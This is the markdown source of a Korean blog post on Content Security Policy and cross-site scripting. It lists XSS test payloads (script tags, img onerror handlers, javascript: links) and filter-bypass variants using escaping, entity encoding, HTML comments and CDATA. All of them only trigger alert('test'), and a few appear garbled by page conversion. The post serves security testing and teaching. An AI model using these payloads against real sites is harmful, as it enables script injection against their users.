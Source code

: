 ```yaml
---
layout: post
title:  "CSP와 XSS테스트 코드"
summary: "사이트 간 스크립팅, 크로스 사이트 스크립팅"
author: yoo94
date: '2023-04-01 17:35:23 +0530'
category: WebSecurity
tags: websecurity
keywords: websecurity,csp,콘텐츠보안정책
thumbnail: https://i.namu.wiki/i/kq9NDC2Dsxbpqwn1L4dDwjo4fH7A9Rb76kbTrqpRirwq1VjPHDyr0Rp_P_Y0MhxFadKjqT5yBClhRDIWxapZNIdIrW8EkbT6KVv90O9wZqZ0ouYllY8gkIa39etQZDdg1d2fR6odJZ7_hYgF4FaLXg.webp
permalink: blog/XSS/
---
```


## CSP 콘텐츠 보안정책

<div style="display: flex; justify-content: center;">
  <img src="/blog/postImg/Pasted image 20240205203449.png" alt="Pasted image 20240205203449.png" style="max-width:auto;; height:auto;">
</div>

<div style="display: flex; justify-content: center;">
  <img src="/blog/postImg/Pasted image 20240205203510.png" alt="Pasted image 20240205203510.png" style="max-width:auto;; height:auto;">
</div>


#### xss테스트

테스트 방법
```text
<script>alert('test');</script>
<div style="display: flex; justify-content: center;">
  <img src=x onerror=alert('test') style="width:auto; height:auto;">
</div>
<a href="javascript:alert('test')">Click me</a>

--------------------------------------------------------

이스케이프(escaping) 우회 시도
<scr\ipt>alert('test');</scr\ipt>
<div style="display: flex; justify-content: center;">
  <img src=x onerror=ale&#x72t('test') style="width:auto; height:auto;">
</div>
<a href="jav&#x61script:alert('test')">Click me</a>

--------------------------------------------------------

이벤트 핸들러 우회 시도
<div style="display: flex; justify-content: center;">
  <img src=x onerror=alert('test') style="width:auto; height:auto;">
</div>
<div style="display: flex; justify-content: center;">
  <img src=x onerror="alert('test')" style="width:auto; height:auto;">
</div>
<div style="display: flex; justify-content: center;">
  <img src=x onerror=alert\('test'\) style="width:auto; height:auto;">
</div>

--------------------------------------------------------

HTML 주석을 이용한 우회 시도
<!--<div style="display: flex; justify-content: center;">
  <img src=x onerror=alert('test') style="width:auto; height:auto;">
</div>-->
<!--><div style="display: flex; justify-content: center;">
  <img src=x onerror=alert('test') style="width:auto; height:auto;">
</div><!-->
<![CDATA[<script>alert('test');</script>]]>

--------------------------------------------------------

스크립트 블록을 이용한 우회 시도:
<div style="display: flex; justify-content: center;">
  <img src=x onerror="javascript:alert('test')" style="width:auto; height:auto;">
</div>
<div style="display: flex; justify-content: center;">
  <img src=x onerror="data:text/html,<script style="width:auto; height:auto;">
</div>alert('test');</script>">

```

